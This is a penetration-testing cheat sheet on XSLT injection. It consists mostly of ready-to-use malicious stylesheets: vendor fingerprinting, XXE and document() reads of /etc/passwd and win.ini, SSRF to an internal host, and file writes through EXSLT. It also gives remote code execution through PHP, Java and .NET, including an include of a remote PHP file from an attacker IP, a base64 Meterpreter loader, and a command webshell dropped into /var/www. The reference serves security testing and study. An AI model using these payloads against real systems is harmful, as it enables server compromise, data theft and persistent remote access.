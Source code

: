# XSLT Injection

> Processing an un-validated XSL stylesheet can allow an attacker to change the structure and contents of the resultant XML, include arbitrary files from the file system, or execute arbitrary code

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
    - [Determine the Vendor And Version](#determine-the-vendor-and-version)
    - [External Entity](#external-entity)
    - [Read Files and SSRF Using Document](#read-files-and-ssrf-using-document)
    - [Write Files with EXSLT Extension](#write-files-with-exslt-extension)
    - [Remote Code Execution with PHP Wrapper](#remote-code-execution-with-php-wrapper)
    - [Remote Code Execution with Java](#remote-code-execution-with-java)
    - [Remote Code Execution with Native .NET](#remote-code-execution-with-native-net)
- [Labs](#labs)
- [References](#references)

## Tools

No known tools currently exist to assist with XSLT exploitation.

## Methodology

### Determine the Vendor and Version

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
 <xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### External Entity

Don't forget to test for XXE when you encounter XSLT files.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Read Files and SSRF Using Document

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
     <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Write Files with EXSLT Extension

EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language. EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with PHP Wrapper

Execute the function `readfile`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

Execute the function `scandir`.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `assert`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
  <xsl:variable name="payload">
    include("http://10.10.10.10/test.php")
  </xsl:variable>
  <xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```

Execute a PHP meterpreter using PHP wrapper.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:variable name="eval">
      eval(base64_decode('Base64-encoded Meterpreter code'))
    </xsl:variable>
    <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `file_put_contents`

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents','/var/www/webshell.php','&lt;?php echo system($_GET[&quot;command&quot;]); ?&gt;')" />
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Java

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### Remote Code Execution with Native .NET

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
 <xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT --- 
  </xsl:template>
</xsl:stylesheet>
```

## Labs

- [Root Me - XSLT - Code execution](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

## References

- [From XSLT code execution to Meterpreter shells - Nicolas Grégoire (@agarri) - July 2, 2012](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
- [XSLT Injection - Fortify - January 16, 2021](http://web.archive.org/web/20210116001237/https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
- [XSLT Injection Basics - Saxon - Hunnic Cyber Team - August 21, 2019](http://web.archive.org/web/20190821174700/https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)
- [Getting XXE in Web Browsers using ChatGPT - Igor Sak-Sakovskiy - May 22, 2024](https://swarm.ptsecurity.com/xxe-chrome-safari-chatgpt/)
- [XSLT injection lead to file creation - PT SWARM (@ptswarm) - May 30, 2024](https://twitter.com/ptswarm/status/1796162911108255974/photo/1)

